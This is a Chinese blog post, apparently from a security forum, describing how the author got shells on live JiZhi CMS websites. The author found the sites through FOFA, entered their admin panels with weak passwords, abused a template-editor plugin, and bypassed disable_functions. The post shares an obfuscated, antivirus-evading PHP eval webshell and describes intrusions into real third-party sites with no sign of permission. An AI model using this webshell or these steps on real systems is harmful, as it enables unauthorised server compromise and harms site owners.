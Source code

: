 

# 记某CMS漏洞getshell - 先知社区

记某CMS漏洞getshell

- - -

# 记极致CMS漏洞getshell

> 今天下午比较空闲，就去搜索一些cms，突然对极致CMS感兴趣，而网上已经有一些文章对它进行分析利用，sql注入,xss,后台修改上传后缀名前台getshell等等。  
> 于是就引起了我的兴趣想去测试一下。

## 信息收集

还是因为自己太懒，不想搭建环境，然后就想网上有好多网站啊，随便找一个去看看。hhh然后去利用`fofa`去搜索。（不能随便乱日）

## 弱密码yyds

搜索了一些网站，我们直接在url后面添加`/admin.php`,就直接跳到后台登录的地方。

[![](assets/1698897532-98127d27addbd87a3a51b5d7fe3518e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000203-4656ee22-8cba-1.png)

看到后台？！嗯~，测试了sql无果，想一想万一有弱密码呢？试一试也没有啥。

然后就测试了弱密码，你懂的。

然后成功登录~ 仿佛就看到了`shell`就在我面前了。

[![](assets/1698897532-4aff6d7d1dfeddf9c0d9db0339f5a28f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000210-4a60369a-8cba-1.png)

因为之前有师傅发过前台上传文件getshell了，那我这里就不进行测试了。直接寻找另一个方法getshell。

和平常的框架一样，登录后台之后就需要去测试功能点，然后我们就一个一个的去测试吧~（这里大概过了有40分钟 2333~）

唯一我感觉利用点就存在系统设置中的高级设置，我们可以选择上传的后缀名，不过这里是前台的上传啊，后台虽然有上传点但是一直绕过不了。难受死了，心里又不甘心在前台上传getshell，在岂不是很没有面子（傲娇）

[![](assets/1698897532-e827b0372adb93dfce28f2575265b830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000216-4df7f84c-8cba-1.png)

这里一直后台没有绕过~~~ 2333~

[![](assets/1698897532-13285b62147644c7c560c10f51250add.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000223-520a45fc-8cba-1.png)

## 柳暗花明又一村

想一想，如果要利用后台，那肯定是一些功能的问题，那我们就去认真找一下网站功能，找来找去就发现一个上传点，有点难受了。过了好久，突然想起了后台有一个`扩展管理`啊，应该说肯定可以下载一下插件来更加功能的吧。

[![](assets/1698897532-a8f50581451f9f2196fc329d09b68772.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000231-56b428de-8cba-1.png)

然后就凭着感觉和功能去看看那些插件可以利于。发现了一个在线编辑模板的插件

[![](assets/1698897532-924fb2273e2dc8d9f1e2a2b1286070b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000237-5a8a187e-8cba-1.png)

这里可能是ctfer的自觉吧~因为之前打过的ctf题基本上是可以利于编辑插件进行修改代码，就可以getshell。话不多说就开始尝试。先下载了该模块并进行安装。

安装前我们还是看看安装说明。万一错误了怎么办！

[![](assets/1698897532-4513f41e1f185f05f14d66ebd1639366.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000248-610d8460-8cba-1.png)

意思就是我们安装的时候还需要设置密码，并且该目录权限比较高,`777`就让我看到了`shell`的希望

然后就设置密码登录密码。

[![](assets/1698897532-5162f39483148f584e774f27dda118e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000258-66c0f8f6-8cba-1.png)

成功登录之后就看到了这个页面我当时直接嗨了起了（np！！！）

[![](assets/1698897532-fa0760c5ab669bd3fe460261dfe2a5cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000304-6a545b02-8cba-1.png)

进入这个页面，那岂不是可以修改代码了，嘿嘿嘿~ 那不是shell唾手可得！

## 写shell连蚁剑

测试了该插件的功能，发现只能修改代码还不能写文件，嗯~。那也简单啊，我们先在已存在的php页面上写入一句话，然后蚁剑连接，创建文件写shell,之后在删除之前修改的代码。

这里分享一个`免杀的小马`

```plain
<?php
$a = $GLOBALS;
$str = '_POST';
eval/**nice**/(''. $a[$str]['cf87efe0c36a12aec113cd7982043573']. NULL);
?>
```

这里写入我们的一句话木马

[![](assets/1698897532-b93abb715578ebd5c2d73d17ec738121.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000312-6f194bb6-8cba-1.png)

然后就是蚁剑去连接啦。看到蚁剑存在了一个绿色东西，长叹一口气~（不过如此）

[![](assets/1698897532-5eb404064dedbcda1262e24f60854d34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000317-72416d6e-8cba-1.png)

连接成功居然不能执行？？？

[![](assets/1698897532-37fc11e3b9c71015c284a9342f82be1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000327-783fe60a-8cba-1.png)

心里又难受了一下~~~  
然后去看看到底过滤了那些函数。并且php版本是5.6

[![](assets/1698897532-2eca9fa5c6752af61f4ec07f17566524.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000344-8229f250-8cba-1.png)

[![](assets/1698897532-74c7ab820099667c20b954f4428d20af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000350-85d8ff36-8cba-1.png)

## 绕disable\_functions(没成功)

然后直接上蚁剑的插件，然后发现是5.6 并且是windows 呜呜呜 不会 直接告辞~

[![](assets/1698897532-4d72d4364709d9ea9a68778c119f53ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000357-8a0bdb5a-8cba-1.png)

虽然没有成功执行命令，但也是一个getshell的思路。

啊~烦~。但是渗透人怎么能认输~

**俗话说得好，拿不下就换一个**（需要表哥们可以给一些意见学习一下~）

## 进行收集信息

进行重复上面的操作又获得一个网站。并且还是通过弱口令获得~

**弱口令yyds**

## getshell执行命令

这里的步骤和前面一样，因为有前面的步骤，而这个shell就简单多了。

也成功获得蚁剑连接。

[![](assets/1698897532-7cf12e8c9afde79f0c3e6061131aa4b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000405-8ed76c12-8cba-1.png)

并且还是不能执行命令，但是看到了linux系统就想，肯定比windows好多了啊。

[![](assets/1698897532-37252a657b78e628511f45104e3a0d4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000410-91b3f928-8cba-1.png)

于是就开始绕disable\_functions，系统信息是这样的，那直接蚁剑一把梭。

[![](assets/1698897532-d7f89c09bb95532cf5da8a553d101e1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000415-94b2fe12-8cba-1.png)

成功绕过，这不就成功了!!!

[![](assets/1698897532-95ba94204243d1d2f16c63d3cad58d4e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000421-985085d0-8cba-1.png)

爽歪歪~

## 总结

-   极致CMS还是存在很多漏洞的。这里小弟只是抛砖引玉而已。
-   而写到这里的时候已经是晚上了，提权的话还是后面文章在说吧。
-   简单的说一下就是该漏洞是主要存在于cms后台插件的位置，允许用户修改代码，而这没有过滤就造成了巨大的风险。

